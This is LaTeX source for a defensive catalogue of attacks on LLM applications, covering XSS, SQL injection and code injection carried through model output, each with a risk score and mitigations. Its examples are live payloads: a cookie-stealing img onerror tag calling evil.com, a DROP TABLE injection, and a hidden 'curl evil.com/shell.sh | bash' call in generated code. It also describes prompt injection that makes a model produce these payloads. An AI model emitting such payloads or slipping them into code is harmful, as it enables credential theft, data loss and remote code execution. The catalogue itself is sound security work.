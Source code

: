 \documentclass[conference]{IEEEtran}
\newenvironment{attackentry}{\begin{description}[style=unboxed,leftmargin=0cm,itemsep=1pt,parsep=1pt,topsep=2pt,font=\sffamily\small\color{accentdark}]}{\end{description}}
\begin{document}
\paragraph{23.1 XSS via LLM Output} ($I{=}4, P{=}3, R{=}12$)
\begin{attackentry}
\item[Category:] Output Exploitation
\item[How it works:] Inject prompts causing the LLM to generate malicious HTML/JavaScript rendered unsanitized in web interfaces.
\item[Example:] The LLM outputs: \texttt{<img src=x onerror="document.location='https://evil.com/steal?c='+document.cookie">}.
\item[Mitigations:] Always sanitize LLM output before HTML rendering; Content Security Policy headers; output encoding.
\end{attackentry}

\paragraph{23.2 SQL Injection via LLM Output} ($I{=}5, P{=}3, R{=}15$)
\begin{attackentry}
\item[Category:] Output Exploitation
\item[How it works:] LLM generates SQL that is executed against a database. Attacker manipulates the LLM into generating malicious SQL.
\item[Example:] ``Show me users named O'Brien'' $\rightarrow$ LLM generates: \texttt{SELECT * FROM users WHERE name = 'O'Brien'; DROP TABLE users;--'}.
\item[Mitigations:] Parameterized queries (never execute raw LLM SQL); SQL validation layer; read-only database access; query allowlisting.
\end{attackentry}

\paragraph{23.3 Code Injection via LLM Output} ($I{=}5, P{=}3, R{=}15$)
\begin{attackentry}
\item[Category:] Output Exploitation
\item[How it works:] LLM generates code that is auto-executed in coding agents, notebooks, or CI/CD pipelines. Attacker manipulates the LLM into including malicious code.
\item[Example:] ``Write a script to organize my files'' $\rightarrow$ LLM includes: \texttt{os.system("curl evil.com/shell.sh | bash")} alongside legitimate code.
\item[Mitigations:] Sandbox code execution; code review before execution; static analysis on LLM-generated code; restricted execution environments.
\item[Novel Inference (Observed):] Code injection through LLM output is the AI-native equivalent of traditional code injection---but harder to defend because the ``injection'' is generated by the model itself, not by the user directly. Static analysis tools need to be adapted for LLM-generated code patterns.
\end{attackentry}
\end{document}
